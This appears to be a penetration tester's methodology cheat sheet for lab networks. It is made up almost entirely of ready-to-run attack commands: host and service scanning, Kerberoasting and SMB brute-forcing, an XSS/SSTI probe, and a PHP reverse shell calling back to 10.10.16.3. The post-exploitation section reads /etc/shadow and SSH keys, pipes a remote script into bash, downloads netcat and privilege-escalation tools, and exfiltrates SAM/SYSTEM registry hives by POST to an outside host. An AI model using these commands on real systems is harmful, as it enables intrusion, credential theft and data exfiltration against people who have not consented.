
My Methodology


<details>
    <summary>Host Discovery (External)</summary>
    
    fping -ag 10.10.110.0/24 2>/dev/null | tee external-ips ; \
    for ip in $(cat external-ips); do nmap=$(nmap -p- --max-retries 1 --min-rate 10000 --open "$ip" | grep -vE 'Warning:|filtered|latency|Starting'); echo "$nmap"; ports=$(echo "$nmap" | sed -n 's|/.*||p' | paste -sd ','); echo "nmap -sC -sV -Pn -p$ports $ip"; echo; done
</details>

Host Discovery (Internal)
━━━━━━━━━━━━━━━━━━━━━━━━━
fping -ag 172.16.1.0/24 2>/dev/null | tee internal-ips ; \
for ip in $(cat internal-ips); do nmap=$(nmap -p- --max-retries 1 --min-rate 10000 --open "$ip" | grep -vE 'Warning:|filtered|latency|Starting'); echo "$nmap"; ports=$(echo "$nmap" | sed -n 's|/.*||p' | paste -sd ','); echo "nmap -sC -sV -Pn -p$ports $ip"; echo; done


Service Enumeration
━━━━━━━━━━━━━━━━━━━━━━━━━
nmap -Pn -sC -sV 172.16.1.10 -p22,80,139,445
ldap=$(nmap --script "ldap* and not brute" -p 389 172.16.1.10); echo "$ldap"
nxc ftp 172.16.1.10 --port 21 -u 'anonymous' -p 'anonymous' --ls
nxc smb 172.16.1.10 --port 445 -u usernames -p passwords --rid-brute 10000
nxc smb 172.16.1.10 --port 445 -u usernames -p passwords --shares
mysql -h 172.16.1.10 -u root@localhost -e 'show databases;'
impacket-GetNPUsers -usersfile usernames domain/ -dc-ip 172.16.1.10
impacket-GetUserSPNs -request-user "$objuser" -dc-ip 172.16.1.10 domain/username:password
impacket-GetUserSPNs -no-preauth "$user" -usersfile usernames -dc-host 172.16.1.10 domain/
impacket-GetUserSPNs -request -dc-ip 172.16.1.10 domain/username:password

for x in $(showmount -e 172.16.1.10 | awk '{print $1}' | grep -v 'Export')
    do mkdir -p "/dev/shm"/mnt"$x"
    sudo mount -t nfs 172.16.1.10:"$x" "/dev/shm"/mnt"$x" -o nolock
    tree -puga "/dev/shm"/mnt"$x"
done


Web Enumeration
━━━━━━━━━━━━━━━━━━━━━━━━━
[*] Technology Discovery
whatweb http://10.10.110.100

[*] WordPress Discovery
wpscan --url http://10.10.110.100/wordpress --enumerate

[*] Directory Discovery
ffuf -u 'http://10.10.110.100/FUZZ' -t 400 -rate 10000 -e .php -v -recursion -mc 200,301 \
-w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt \
2>/dev/null | grep -oP '(http.*)(?<!/)$'

[*] Directory Traversal
ffuf -u 'http://10.10.110.100/nav.php?page=FUZZ' -t 400 -rate 10000 -v -mc 200 \
-w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt \
2>/dev/null | grep -oP '(http.*)(?<!/)$'

[*] XSS + SSTI
<img src=x>'"${{7*7}}

[*] Subdomain Discovery
gobuster vhost --append-domain -u example.com -k -r -t200 -q \
-w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt \
| grep -oP '(?<=Found: )[^ ]+'


Exploitation
━━━━━━━━━━━━━━━━━━━━━━━━━
[*] Reverse Shells
<?php
$lhost = "10.10.16.3";
$lport = 4444;

exec("bash -c 'bash -i >& /dev/tcp/$lhost/$lport 0>&1'");
$sock = fsockopen($lhost, $lport);
if ($sock) {
    exec("sh <&3 >&3 2>&3");
}
?>

[*] Upgrade TTY
python3 -c 'import pty; pty.spawn("/bin/bash")';
CTRL-Z
stty size;stty raw -echo;fg
export SHELL=bash;
export TERM=xterm-256color;
stty rows <num> columns <num>
reset


Post Exploitation
━━━━━━━━━━━━━━━━━━━━━━━━━
[*] Linux
ssh user@xxxxxxxxx -i id_rsa -L 33060:localhost:33060
netstat -tuln
ls -la /opt
sudo -l
find / -perm /4000 2>/dev/null
grep -r -E 'conf' /var/www
cat ~/.ssh/id_rsa
cat /etc/shadow
curl xxxxxxxxxx:8088/linpeas.sh | bash
GTFO bins

[*] Windows
evil-winrm -i xxxxxxxxxx -u 'username' -p 'password'
evil-winrm -i xxxxxxxxxx -u 'username' -H 'hash'
cd C:\users
tree /f
powershell -c "certutil -urlcache -f http://xxxxxxxxxx:8088/winpeas.exe C:\programdata\winpeas.exe"
powershell -c "certutil -urlcache -f http://xxxxxxxxxx:8088/nc.exe C:\programdata\nc.exe"

click.url
[InternetShortcut]
URL=C:\programdata\shell.bat

meterpreter > use priv
meterpreter > getsystem

nxc winrm xxxxxxxxxx -u 'username' -p 'password' -x \
'
powershell -c rm *.SAV
powershell -c reg save HKLM\SYSTEM SYSTEM.SAV
powershell -c reg save HKLM\SAM SAM.SAV
powershell -c compress-archive *.SAV SAM.zip
powershell -c dir
iwr http://xxxxxxxxxx:xxxx -Method POST -InFile SAM.zip
'; unzip -o SAM.zip; \
impacket-secretsdump LOCAL -sam SAM.SAV -system SYSTEM.SAV

powershell -c "certutil -urlcache -f http://xxxxxxxxxx:8088/powerview.ps1 C:\programdata\powerview.ps1"
powershell Import-Module C:\programdata\powerview.ps1
Get-NetDomain
Get-LocalUser
Set-DomainObject -Identity USERNAME -SET @{serviceprincipalname='SET/SET'}; Get-DomainSPNTicket -spn SET/SET
bloodhound-python -c all -u 'username' -p 'password' -d "$domain" -dc "$dc" -ns "$target"
bloodhound-python -c default -u 'username' -p 'password' -d "$domain" -dc "$dc" -ns "$target"
